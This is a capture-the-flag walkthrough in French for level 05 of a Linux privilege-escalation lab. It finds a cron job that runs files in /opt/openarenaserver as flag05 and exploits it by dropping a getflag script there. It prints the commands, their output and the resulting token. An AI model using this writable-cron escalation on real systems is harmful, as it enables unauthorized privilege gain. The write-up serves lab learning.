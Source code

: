 ## Level 05: 

Dès le login, un message apparaît :
```
You have new mail.  
```
1.  
-> on essaie donc de trouver les mails:
```bash
find / -name mail 2>/dev/null  
```
output:
```
/usr/lib/byobu/mail
/var/mail
/var/spool/mail 
/rofs/usr/lib/byobu/mail 
/rofs/var/mail 
/rofs/var/spool/mail
```

-> on liste tous les résultats:
```bash
ls `find / -name mail 2>/dev/null`
```
output:
```
/rofs/usr/lib/byobu/mail  /usr/lib/byobu/mail  

/rofs/var/mail:
level05

/rofs/var/spool/mail:
level05

/var/mail:
level05 

/var/spool/mail: 
level05 
```
2.  
-> on remarque le fichier level05 dans plusieurs dossiers. On le cat:  
```bash
cat /var/mail/level05
```
output:
```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
On reconnait ici une tache cron notamment grâce au format de planification :
```
*/2 * * * *
```

``` su -c ``` est une commande permettant de changer d'utilisateur et l'option ```-c``` permet d'executer la commande qui suit mais sous un autre utilisateur, spécifié après avec ```- flag05```

Ainsi, la ligne
 ```bash
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05
```
dans le crontab permet d'exécuter le script ```/usr/sbin/openarenaserver ``` toutes les 2 minutes sous l'utilisateur flag05  
3.  
Nous examinons le script ```/usr/sbin/openarenaserver``` pour comprendre son fonctionnement :
```bash
cat /usr/sbin/openarenaserver 
```
Output:
```bash
#!/bin/sh 
for i in /opt/openarenaserver/* ; do 
    (ulimit -t 5; bash -x "$i") 
    rm -f "$i"
done
```
On comprend que le script exécute tous les fichiers présents dans ```/opt/openarenaserver``` avec un timeout de 5 secondes, puis les supprime -> faille  
4.  
Pour exploiter cette faille, nous pouvons créer un fichier dans ```/opt/openarenaserver```qui éxecute la commande ```getflag```: 
```bash
echo "getflag > /tmp/flag05" > /opt/openarenaserver/flag05
```
Cette commande nous permet de créer un fichier flag05 dans ```/opt/openarenaserver```dans lequel se trouve la commande ```getflag > /tmp/flag05"```. Cette dernière nous permet de récupérer l'output de la commande ```getflag``` dans ```/tmp/flag05```lorsqu'elle sera éxecuté par le script ```/usr/sbin/openarenaserver``` toutes les 2min par le cron task.  
5.  
Il nous suffit ensuite d'attendre 2min afin que la cron task se lance et récupérer le contenu du fichier ```/tmp/flag05```:
```bash
cat /tmp/flag05
```
Output:
```bash
Check flag.Here is your token : viuaaale9huek52boumoomioc
````